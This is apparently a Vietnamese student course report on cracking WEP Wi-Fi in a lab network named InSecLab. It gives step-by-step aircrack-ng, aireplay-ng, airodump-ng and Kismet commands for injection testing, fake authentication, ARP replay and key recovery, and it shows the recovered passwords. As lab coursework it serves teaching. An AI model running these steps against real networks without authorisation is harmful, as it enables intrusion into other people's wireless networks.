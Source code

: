 # Báo cáo đồ án môn học
## 1. Sử dụng Aircrack-ng + Airodump-ng + Aireplay-ng để bẻ khóa các mật mã đơn giản
### Bước 1: Tìm đối tượng để thực hiện tấn công.
Sử dụng **airodump-ng** để tìm kiếm các wifi có mã hóa WEP
```s 
 $ airodump-ng wlan0mon
```
![alt](images/airodump-ng.png)
Các thông tin về wifi:
- BSSID: **C0:4A:00:71:34:9c** (là địa chỉ MAC của AP).
- Channel: **11** (kênh giao tiếp của AP).
- ESSID: **InSecLab** (tên của wifi).
- Wifi sử dụng mã hóa **WEP**.

Thực hiện chuyển channel của wlan0mon thành **11** (giống với channel của AP)
```sh
 $ iwconfig wlan0mon channel 11
```

### Bước 2: Kiểm tra Packet Injection
```sh
 $ aireplay-ng -9 -e InSecLab -a C0:4A:00:71:34:9C wlan0mon
```
- -9 là lựa chọn Injection test.
- -e là tên của wifi.
- -a là địa chỉ MAC của AP.
- wlan0mon là wireless interface.

Kết quả nhận được khi thực hiện lệnh trên
![alt](images/injection_test.png)
=> Kết quả trả về thành công (**30/30: 100%**)

### Bước 3: Sử dụng airodump-ng để bắt các IV (Initial Vector)
Ở bước này chúng ta sẽ sử dụng ***airodump-ng*** để bắt các **IV** được tạo ra bởi AP.
```sh
 $ airodump-ng -c 11 --bssid C0:4A:00:71:34:9C -w CaptureIV wlan0mon
```
- -c 11 là channel của mạng wifi.
- --bssid **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -w CaptureIV là file chứa những IV bắt được.
- wlan0mon là wireless interface.

![alt](images/CaptureIV.png)

### Bước 4: Sử dụng aireplay-ng để tạo xác thực giả với AP
Nếu không có các kết nối nào khác vào AP thì sẽ không tạo mới các IV. Nên ta sẽ tạo ra các xác thực giả đến AP nhằm tạo ra các IV và bắt nó.
```sh
 $ aireplay-ng -1 0 -e InSecLab -a C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
- -1 nghĩa là xác thực giả.
- 0 là thời gian để gửi lại gói tin.
- -e **InSecLab** là tên của wifi.
- -a **C0:4A:00:71:34:9C** là địa chỉ MAC của AP.
- -h **00:0c:29:b8:bf:f1** là địa chỉ MAC của máy chúng ta.
- **wlan0mon** là wireless interface.

![alt](images/fakeauth.png)
=> Gửi xác thực giả thành công.

### Bước 5: Sử dụng aireplay-ng tăng tín hiệu ARP để tạo ra nhiều IV
```sh
 $ aireplay-ng -3 -b C0:4A:00:71:34:9C -h 00:0c:29:b8:bf:f1 wlan0mon
```
![alt](images/ARP.png)

### Bước 6: Chờ để thu thập đủ IV cho việc crack
![alt](images/IVCrack.png)

### Bước 7: Sử dụng aircrack-ng để tìm password của AP
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```
![alt](images/solve.png)
- Thời gian để tìm ra password là **0s**
- Password: **1234567890**

## 2. Sử dụng các phần mềm khác nhau để thực hiện việc bẻ khóa các mật mã phức tạp

Sử dụng Kismet để kiểm tra các Wifi xung quanh
```sh
 $ kismet -c wlan0mon
```
Sử dụng giao diện người dùng của Kismet
![alt](images/KismetUI.png)

Nhấp vào tên wifi để xem thông tin của wifi đó (trong bài thực hành này là InSecLab)
![alt](images/wifiinfo.png)
![alt](images/wifiinfo1.png)
- Thông tin bao gồm tên Wifi
- Địa chỉ MAC của AP
- Channel của AP
- Mã hóa WEP

Sau khi thu thập được địa chỉ **MAC**, **ESSID**, **CHANNEL** của AP ta sẽ tiến hành crack nó theo các bước đã trình bày ở trên.

Tiến hành thu thập **IVs**
![alt](images/CaptureIV1.png)

Tiến hành crack Wifi
```sh
 $ aircrack-ng -b C0:4A:00:71:34:9C CaptureIV-01.cap
```

Kết quả
![alt](images/solve1.png)
=> Pass wifi: ***TAN@123tantan***
